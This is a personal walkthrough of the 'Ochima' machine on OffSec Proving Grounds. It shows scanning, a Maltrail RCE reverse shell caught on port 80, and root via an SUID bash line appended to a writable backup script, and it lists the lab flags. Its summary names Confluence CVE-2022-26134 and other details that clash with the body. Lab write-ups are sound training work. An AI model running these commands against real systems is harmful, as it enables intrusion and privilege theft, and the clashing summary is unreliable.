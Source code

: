 ```yaml
---
Date: 2024-10-13
Platform: PG-Practice
Category: Linux
Difficulty: Intermediate
Status: Complete
IP: 192.168.117.32
Writeup: https://medium.com/@0xrave/ctf-200-01-offsec-proving-grounds-practice-labor-day-ctf-machine-walkthrough-702633e20940
---
```

# Ochima
This one was an exercise in frustration purely because the exploit didn't seem to work on the port I wanted it to (`4444`) but *would* work on port `80`!? 

I tired all sorts of things to get it work, the walkthroughs didn't explain why they used port 80, and the exploit itself indicated it'd work on whatever I picked... but the moment I popped port 80 into the exploit's reverse shell parameters I got an incoming connection. So an important reminder that if a reverse shell isn't working on port `4444` then try the same thing but with a listener on port `80` instead

Once I had initial access, privilege escalation wasn't hugely complicated - I spotted the `.tar` backup file pretty quickly, and after running `linpeas.sh` I saw the `etc_Backups.sh` script too. Part of me worried that I'd need to find a way to execute the script if it wasn't scheduled, or that I wouldn't have write access, but after checking with `ls -lah` I saw it was wide open, and I could have uploaded `pspy` to see if it was running too.

All round a bit frustrating to lean on a walkthrough to figure out initial access, but the walkthrough didn't help much anyway - it just told me the exploit *could* work, and it took me realising the walkthroughs both happened to use port 80 before I tried it myself.

**Note**: My initial `nmap` scan didn't show up port `8338`, so this was an important reminder to run a wider and more aggressive scan if there's no obvious way forward (or just start by running `sudo nmap -p- -T5 192.168.xx.xxx -v` followed by an aggressive port specific scan)

**Note2**: Don't forget to scan UDP if the TCP scan doesn't show much - most of the time you'll find nothing, but if you do it'll be a big deal.
# Resolution summary
- Ran Nmap to identify ports `22` & `8080`
- Visited http (`8090`) & identified `Confluence v7.13.6`
- Identified exploit for CVE-2022-26134 and ran against target for reverse shell
- Uploaded `pspy` and identified `log-backup.sh` being run regularly by `root`
- Added command to change `/bin/bash` SUID and waited for script to run
- Ran `/bin/bash -p` to become `root`
## Improved skills
- Linux Privilege Escalation
- Handling reverse shells
## Used tools
- nmap
- python
- linpeas.sh

---
# Information Gathering
Scanned all TCP ports:
```bash
sudo nmap -Pn -n 192.168.117.32 -sC -sV -p- --open -v
```

Enumerated open TCP ports:
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)
|_  256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)
80/tcp   open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
8338/tcp open  unknown
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: Maltrail/0.52
|     Date: Sun, 13 Oct 2024 07:41:59 GMT
|     Connection: close
|     Content-Type: text/html
|     Last-Modified: Sat, 31 Dec 2022 22:58:57 GMT
|     Content-Security-Policy: default-src 'self'; style-src 'self' 'unsafe-inline'; img-src * blob:; script-src 'self' 'unsafe-eval' https://stat.ripe.net; frame-src *; object-src 'none'; block-all-mixed-content;
|     Cache-Control: no-cache
|     Content-Length: 7091
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta http-equiv="X-UA-Compatible" content="IE=edge">
|     <meta http-equiv="Content-Type" content="text/html;charset=utf8">
|     <meta name="viewport" content="width=device-width, user-scalable=no">
|     <meta name="robots" content="noindex, nofollow">
|     <title>Maltrail</title>
|     <link rel="stylesheet" type="text/css" href="css/thirdparty.min.css">
|     <link rel="stylesheet" type="text/css" hre
|   HTTPOptions: 
|     HTTP/1.0 501 Unsupported method ('OPTIONS')
|     Server: Maltrail/0.52
|     Date: Sun, 13 Oct 2024 07:41:59 GMT
|     Connection: close
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 500
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 501</p>
|     <p>Message: Unsupported method ('OPTIONS').</p>
|     <p>Error code explanation: HTTPStatus.NOT_IMPLEMENTED - Server does not support this operation.</p>
|     </body>
|_    </html>
1 service unrecognized despite returning data.
```
---
# Enumeration
## Port 22 - SSH (OpenSSH 8.9p1)
No enumeration conducted
## Port 80 - HTTP (Apache 2.4.52)
- Navigated to `http://192.168.117.32:80` and identified `Apache2 Defauly Page`
![[Pasted image 20241013175715.png]]
- Ran `gobuster dir -u http://192.168.117.32 -w //usr/share/dirb/wordlists/big.txt` to enumerate web directories
![[Pasted image 20241013180308.png]]
## Port 8338 - HTTP (Apache 2.4.52)
- Navigated to `http://192.168.117.32:80` and identified `Maltrail v.052`
![[Pasted image 20241013181247.png]]
	- Potentially vulnerable to CVE-2023–27163
---
# Exploitation
- Identified exploit `Maltrail-RCE.py` from https://github.com/spookier/Maltrail-v0.53-Exploit/blob/main/exploit.py - copied to local host 
- Setup Netcat listener on port `80` then ran `python3 Maltrail-RCE.py 192.168.45.250 80 http://192.168.117.32:8338` to catch reverse shell as user `snort`
![[Pasted image 20241013190836.png]]
---
# Lateral Movement to user
## Local Enumeration
- Ran `cat /home/snort/local.txt` to print `a00aea52796dcd16e3d4e840f16bd277`
![[Pasted image 20241013190954.png]]
- Ran `cat /etc/passwd` to enumerate users
![[Pasted image 20241013191808.png]]
- Ran `sudo -l` and found `sudo` requires `snort` password
![[Pasted image 20241013191909.png]]
- Uploaded & ran `linpeas.sh`
![[Pasted image 20241013193004.png]]
- Identified interesting files
![[Pasted image 20241013193341.png]]
- Identified possible private SSH keys
![[Pasted image 20241013193432.png]]
- Identified interesting writeable files including `/var/backups/etc_Backup.sh`
![[Pasted image 20241013193641.png]]
---
# Privilege Escalation
- Ran `ls -lah /var/backups/etc_Backup.sh` to identify script privileges
![[Pasted image 20241013194807.png]]
- Ran `echo "chmod +s /bin/bash" >> /var/backups/etc_Backup.sh` to add command to script to change set privileges for `/bin/bash`
![[Pasted image 20241013195006.png]]
- Waited a few minutes for script, then ran `/bin/bash -p` to achieve `root`
![[Pasted image 20241013195139.png]]
- Ran `cat /root/proof.txt` to print `8f730f4db61f48dd3810007f95fa9e61`
![[Pasted image 20241013195335.png]]
---
# Trophy & Loot
`local.txt` = `a00aea52796dcd16e3d4e840f16bd277`
`root.txt` = `8f730f4db61f48dd3810007f95fa9e61`